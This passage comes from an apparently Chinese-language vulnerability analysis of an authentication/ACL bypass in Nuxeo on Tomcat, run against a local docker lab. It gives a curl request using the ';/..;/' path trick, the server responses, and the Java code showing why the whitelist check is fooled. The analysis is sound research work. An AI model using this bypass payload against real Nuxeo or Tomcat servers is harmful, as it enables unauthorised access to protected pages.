 ```
Server: Apache-Coyote/1.1
X-Frame-Options: SAMEORIGIN
X-UA-Compatible: IE=10; IE=11
Cache-Control: no-cache
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src *; script-src 'unsafe-inline' 'unsafe-eval' data: *; style-src 'unsafe-inline' *; font-src data: *
X-XSS-Protection: 1; mode=block
Set-Cookie: JSESSIONID=F928CDFBD9BB1A54B03E380F1759731D.nuxeo; Path=/nuxeo/; HttpOnly
Location: http://172.17.0.2:8080/nuxeo/login.jsp?requestedUrl=oauth2Grant.jsp
Content-Length: 0
Date: Thu, 16 Aug 2018 09:17:05 GMT
```
验证：
```
curl -I http://172.17.0.2:8080/nuxeo/login.jsp;/..;/oauth2Grant.jsp
```
返回：
```
HTTP/1.1 500 Internal Server Error
Server: Apache-Coyote/1.1
X-Frame-Options: SAMEORIGIN
X-UA-Compatible: IE=10; IE=11
Cache-Control: no-cache
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src *; script-src 'unsafe-inline' 'unsafe-eval' data: *; style-src 'unsafe-inline' *; font-src data: *
X-XSS-Protection: 1; mode=block
Set-Cookie: JSESSIONID=7A751E09ED606C0EAEF4F615BC3F9330.nuxeo; Path=/nuxeo/; HttpOnly
Content-Type: text/html;charset=UTF-8
Content-Length: 2396
Vary: Accept-Encoding
Date: Thu, 16 Aug 2018 09:16:54 GMT
Connection: close
```
正如原文所说的，出现`500`是因为`servlet`无法处理而已，但这也是绕过了`ACL`控制

# 怎样绕过的ACL
当一个验证的请求提交时，数据在经过`getRequestedPage`处理
因为`i`为9的原因，返回的值会是`login.jsp`，而他是在白名单里的，因此能够通过`bypassAuth`的检测，按照道理是没有问题的，因为在`nuxeo`中，不管你输入的是`/login.jsp;/..;/xxx.jsp`，最后也会因为检测问题，而只保留`login.jsp`
# tomcat??
`docker`环境用的`tomcat 7.0.69`，下载一份`tomcat`源码然后`choose source`，看一下，`tomcat`是如何处理这段请求的。
重新运行，查看到进入到`bypassAuth()`的值
```
 protected boolean bypassAuth(HttpServletRequest httpRequest) {
   //
}
```
再详细看一下`httpRequest`
* `unparsedURIMB`是`未经处理的URI`
* `uriMB`是`URI`
* `decodedUriMB`是经过转码后的`URI`
可以清晰的看到，在`tomcat`中，`/nuxeo/login.jsp;/..;/oauth2Grant.jsp`经过转码后成了`/nuxeo/oauth2Grant.jsp`，那么重新回过头来看一下关键地点
```
protected static String getRequestedPage(HttpServletRequest httpRequest) {
    String requestURI = httpRequest.getRequestURI();  //谁才是这个URI？？？？
    String context = httpRequest.getContextPath() + '/';
    String requestedPage = requestURI.substring(context.length());
    int i = requestedPage.indexOf(';');
    return i == -1 ? requestedPage : requestedPage.substring(0, i);
```